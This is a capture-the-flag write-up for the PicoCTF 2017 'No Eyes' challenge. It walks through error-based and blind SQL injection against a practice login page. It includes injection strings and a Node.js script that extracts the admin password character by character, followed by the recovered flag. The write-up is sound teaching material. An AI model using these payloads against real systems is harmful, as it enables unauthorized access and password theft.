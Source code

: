 # PicoCTF2017
## Writeup for No Eyes

    The website(http://shell2017.picoctf.com:16012/) isn't really me much, but you can still get the admin password, right?
    
And a quick look at the hints:

    Sometimes an error message can be just as useful.
    
The website visibly has nothing but a login page.

So let's try some error messages. First, We'll login with no information at all.

    User not Found.

Okay, so it looks like the program separately checks for username and password. To confirm this, We'll login with my username as "admin" and my password as some random characters.

    Incorrect Password.
    
Great! This means that there exists an account with the username admin. This also means that if the username exists, it will return a password error instead of a "User not Found" error. Now let's try some basic SQL injection to see what happens.  
We'll enter the username as something random, use an ending single quote, throw in a OR 1=1, then comment off the rest. Like this:  

    abcdef' OR 1=1 -- 

This means that, if our SQL injection is valid, the username will return valid. It will return valid because anything combined with an OR 1=1 would logically return true. After logging in with this, we get a very important error message: 

    Incorrect Password.

Why is this important? Because this means that the username query returned true, and therefore our SQL injection worked. If the website returned "User not Found", then the SQL injection would not have worked.  

The next thing we'll do is enter some code that will break the SQL injection in hopes of getting a specific error message. To do that, we can throw in an ending single quote, but not comment off the rest. For the username, we can literally just type:  

    test' 
    
And that gives us the error:  

    There Was An Error With Your Request:
    select * from users where user = 'test'';

Great! This tells us that the database we want to pull from is named "users", and the field for username is "user". Using that naming system, we can assume that the field for password is "pass".  

The next step is to find out what database engine they use for SQL. Different SQL database engines have different methods. Because the last question used sqlite, I kind of just guessed they would use sqlite for this one as well. To confirm, I ran a simple union that would work with sqlite. Google gives us this nice page: (https://sqlite.org/lang_corefunc.html)[https://sqlite.org/lang_corefunc.html].  

Remember that we are looking for a "Incorrect Password" error message, because that would mean that the username query returned true. To test if the database engine is sqlite, I used this as the username:  

    test' and 1=0 union all select * from users where substr(user,1,3)="adm" -- 
    
And we get the error message of "Incorrect Password". So let's break this down. Before the union, we pass in a username of test combined with an and 1=0. Because 1 will never equal 0, the first part of the injection will not give any results. This is important because if the first part of the injection did return a result, then the sql code would always pass no matter what is after the union. We only want the sql code to pass if the second part of the code passes. So essentialy, we are unioning nothing with a query that will find if the first 3 letters of any users username is "adm" (the first 3 letters of admin), and if that returns a result, then we will get a "Incorrect Password" error, and therefore proves that the first part is true.  

I'm sure you can see where this is going... Instead of checking the substring of the username, we can check the substring of the password. We can start with substr(pass,1,1)="some letter", and guess until we get an "Incorrect Password". Once we get an incorrect password, we know what the first letter is, then we can move onto substr(pass,1,2)="two letters". So on and so forth. You could go through the painful process of trying to manually guess all the letters (which I ashamedly did...) but for the sake of this writeup, let's write a program that will do it for us.  

I'm a JavaScript and Node.js fan. This code is written in JavaScript, but is well commented so it should be understandable for any programmer. Before writing a program however, we need to find out what data to post and where. Viewing the source of the web page, I found this for the form:  

    <form class="form-signin" method="post">
        <h4>Welcome back.</h4>
        <input type="text" name="username" class="form-control input-sm chat-input" placeholder="username" />
        </br>
        <input type="text" name="password" class="form-control input-sm chat-input" placeholder="password" />
        </br>
        <div class="wrapper">
            <span class="group-btn">     
                <button class="btn btn-primary btn-md" type="submit">login</button>
            </span>
        </div>
    </form>
    
So the username has the name "username", the password has the name "password", and the location of the post is just root (/). Now, let's write the program.  

    // To let us use constants and lets. If you are not using JavaScript, this is irrelevant
    'use strict'

    // Request is our package for sending post requests with our login data.
    const request = require('request')
    const URL = 'http://shell2017.picoctf.com:16012/'

    // We make a string of all characters Iwe think will be in the password. We then split it by nothing to make it into an array.
    // const acceptableCharacters = 'abcdefghijklmnopqrstuvwxzyABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_[](){}'.split('')
    // These characters took trial and error to get. I started with only lowercase letters, when that didn't give me what
    // I wanted, I added numbers and underscores. Luckily, that was enought to get the flag.
    const acceptableCharacters = 'abcdefghijklmnopqrstuvwxzy1234567890_'.split('')

    /*
     * Here is our logic:
     * We will send a request with the password starting at one letter.
     * Whichever request is successful will build off of what it sent
     */
    for (let i = 0; i < acceptableCharacters.length; i++) {
      makePost(acceptableCharacters[i])
    }

    // Sends a post with the current guess. If the guess is successful, it logs the guess,
    // then makes more posts with letters added onto that guess.
    function makePost (guess) {
      request.post({
        url: URL,
        form: { // I got the name of the fields to be sent by viewing the source of the login page, and checking the "name" option of the textboxes.
          username: 'test\' and 1=0 union all select * from users where substr(pass,1,' + guess.length + ')="' + guess + '" -- ',
          password: ''
        }
      }, function (err, res, body) {
        if (isValidPost(body)) {
          console.log(guess)
          for (let i = 0; i < acceptableCharacters.length; i++) {
            makePost(guess + acceptableCharacters[i])
          }
        }
      })
    }

    // Determines if the post is valid by checking if the response string contains the words "Incorrect Password"
    // However, when a user isn't found, the error message is "User not found", so I shortened the words to search for
    // down to just "Inco"
    function isValidPost (res) {
      if (res) {
        return res.indexOf('Inco')>-1
      } else {
        // If there is no reason, the server probably crashed or something.
        console.log('Timeout. Try again.')
      }
    }

After letting that code run for a good minute or so, I get the following:  

    n
    no
    not
    not_
    not_a
    not_al
    not_all
    not_all_
    not_all_e
    not_all_er
    not_all_err
    not_all_erro
    not_all_error
    not_all_errors
    not_all_errors_
    not_all_errors_s
    not_all_errors_sh
    not_all_errors_sho
    not_all_errors_shou
    not_all_errors_shoul
    not_all_errors_should
    not_all_errors_should_
    not_all_errors_should_b
    not_all_errors_should_be
    not_all_errors_should_be_
    not_all_errors_should_be_s
    not_all_errors_should_be_sh
    not_all_errors_should_be_sho
    not_all_errors_should_be_show
    not_all_errors_should_be_shown
    not_all_errors_should_be_shown_
    not_all_errors_should_be_shown_5
    not_all_errors_should_be_shown_59
    not_all_errors_should_be_shown_599
    not_all_errors_should_be_shown_599b
    not_all_errors_should_be_shown_599bf
    not_all_errors_should_be_shown_599bfc
    not_all_errors_should_be_shown_599bfc4
    not_all_errors_should_be_shown_599bfc4e
    not_all_errors_should_be_shown_599bfc4ee
    not_all_errors_should_be_shown_599bfc4ee4
    not_all_errors_should_be_shown_599bfc4ee41
    not_all_errors_should_be_shown_599bfc4ee419
    not_all_errors_should_be_shown_599bfc4ee4197
    not_all_errors_should_be_shown_599bfc4ee4197f
    not_all_errors_should_be_shown_599bfc4ee4197fd
    not_all_errors_should_be_shown_599bfc4ee4197fdc
    not_all_errors_should_be_shown_599bfc4ee4197fdc5
    not_all_errors_should_be_shown_599bfc4ee4197fdc5e
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed9
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed936
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed9361
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f5
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f51
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f515
    
Obviously the last one will be our flag!
